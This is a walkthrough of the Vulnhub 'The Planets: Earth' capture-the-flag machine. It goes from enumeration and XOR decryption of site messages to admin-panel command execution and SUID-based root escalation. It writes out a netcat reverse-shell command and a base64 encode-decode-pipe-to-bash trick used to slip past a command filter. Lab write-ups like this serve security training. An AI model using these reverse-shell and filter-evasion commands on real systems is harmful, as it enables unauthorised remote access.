# The Planets: Earth CTF - Vulnhub Machine
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **The Planets: Earth** CTF challenge on [Vulnhub](https://www.vulnhub.com/entry/the-planets-earth,755/). 
---


we found open ports 22, 80 and 443



we also need to add `earth.local` and `terratest.earth.local` to /etc/hosts



from feroxbuster scan we know about hidden directory /admin





in the robots.txt we found /testingnotes.*



in the robots.txt we found testdata.txt and `terra` username



from note we see that testdata.txt was used to test encryption, so it might be a key to a message

we can replicate the same result by using form on the website and cyberchef





this means we can now reverse the first three messages on the site

first we need to decode from hex and then use XOR funmction (From HEX -> XOR (with the key from testdata.txt with UTF-8 encoding))



now we can login to /admin panel, and we can execute some commands as apache



i tried simple reverse shell but there seems to be a some kind of filter



we can evade filter by using base64, first we encode reverse shell command with base64, and then we decode it and pipe it to bash

```
BASE64 ENCODING:
$ echo "nc -c /bin/bash 192.168.X.X 7777" | base64

FORM:
$ echo "previous command result" | base64 -d | bash
```

now we have shell access



looking into folders we see /var/earth_web, there we can find a user flag



after running linpeas we see some unknown SUID binary



we can download it and analyze it with ltrace

```
$ chmod +x reset_root
$ ltrace ./reset_root
```



we see that program is accessing some files, but we dont have them on machine, we need to create them

```
$ touch /dev/shm/kHgTFI5G
$ touch /dev/shm/Zw7bV9U5
$ touch /tmp/kcM0Wewe
$ /usr/bin/reset_root
```



we found some password

this is the root password we can now swtich to root

we have root flag and root access 



# MACHINE PWNED

